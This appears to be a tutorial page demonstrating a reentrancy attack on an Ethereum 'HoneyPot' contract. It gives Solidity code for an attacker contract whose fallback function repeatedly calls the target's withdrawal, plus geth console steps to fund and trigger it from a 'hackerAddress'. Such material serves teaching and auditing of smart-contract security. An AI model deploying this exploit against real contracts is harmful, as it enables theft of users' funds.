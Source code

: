 ```bash
contract HoneyPotCollect {
  HoneyPot public honeypot;
  function HoneyPotCollect (address _honeypot) public {
    honeypot = HoneyPot(_honeypot);
  }

  function kill () public {
    selfdestruct(msg.sender);
  }

  function collect() payable public {
    honeypot.put.value(msg.value)();
    honeypot.get();
  }

  function () payable public {
    if (honeypot.balance >= msg.value) {
      honeypot.get();
    }
  }
}
```

Interact with smart contract

```bash
> var honeyPotAbi = eth.contract(<honeyPotAbi>);
> var HoneyPot = honeyPotAbi.at(<honeyPotAddress);
```

Call put function (The similar with get)

```bash
> HoneyPot.put({from: "<senderAddress>", value: <value>}) // no need "value" when get()
> "<transaction>" // result
```

Check contract's storage (balances) 

```bash
> HoneyPot.balances("<senderAddress>")
> 600000000000000000 // 0 after get()
```

### Attack

Call collect function and sending with it some ether.

```bash
> var honeyPotCollectAbi = eth.contract(<honeyPotCollectAbi>);
> var HoneyPotCollect = honeyPotCollectAbi.at(honeyPotCollectAddress);

> HoneyPot.collect({from: "<hackerAddress>", value: <value>})
// remember unlock address before
```
